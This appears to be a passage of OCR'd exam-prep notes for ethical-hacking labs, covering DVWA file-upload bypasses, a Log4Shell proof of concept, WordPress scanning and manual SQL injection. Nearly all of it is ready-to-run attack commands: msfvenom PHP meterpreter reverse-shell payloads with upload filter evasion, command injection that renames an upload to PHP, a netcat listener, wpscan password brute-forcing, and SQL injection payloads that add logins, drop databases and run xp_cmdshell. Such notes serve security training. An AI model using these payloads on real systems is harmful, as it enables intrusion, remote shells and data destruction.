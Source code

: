 	Medium 
		msfvenom -p php/meterpreter/reverse_tcp LHOST=<my-ip> LPORT=4477 -f raw > medium.php
		mv medium.php medium.php.jpg
	
		Intercept the upload request with burpsuite and change to extension from ".php.jpg" to ".php"

		OR

		simply upload medium.php -> intercept request -> change the header from [Content-Type: application/x-php] to  [Content-Type: image/jpeg]

	High	
		msfvenom -p php/meterpreter/reverse_tcp LHOST=<my-ip> LPORT=4477 -f raw > image.jpg

		Add "GIF98" \n	in the starting of image.jpg
		upload on dvwa

		|dir "C:\wamp64\www\DVWA\hackable\uploads"
		|copy "C:\wamp64\www\DVWA\hackable\uploads\image.jpg" "C:\wamp64\www\DVWA\hackable\uploads\high.php"

		open exploit/multi/handler/ meterpreter and
		run the file in browser	http://10.10.1.22:8080/dvwa/hackable/uploads/high.php

    # Log4shell

        pip3 install -r requirements.txt
        replace /jdk.... with the original one with absolute path /home/attacker/jdk...
        nc -lvnp 7777
        python3 poc.py --userip <myip> --webport 8080 --lport 7777
        
    # Extras:--	

    # Identify CMS (Content Management System)
	wig <url>

    # WordPress Hacking
	wordpress
	
	wpscan --url http://certifiedhacker.com -U usernames.txt -P passwords.txt
	wpscan --api-token "" --url http://<ip>:<port>/CEH --plugin-detection aggressive --enumerate vp
	wpscan --api-token "" --url http://<ip>:<port>/CEH --enumerate u
	


## SQL Injection 15

    # Manual SQLi

	admin' or 1=1--
	admin'; insert into login values('test','hacker123'); --
	admin'; create database pagalworld; --
	admin'; drop database pagalworld; --
	a'; exec master..xp_cmdshell 'ping www.certifiedhacker.com -t -l 65000'; --
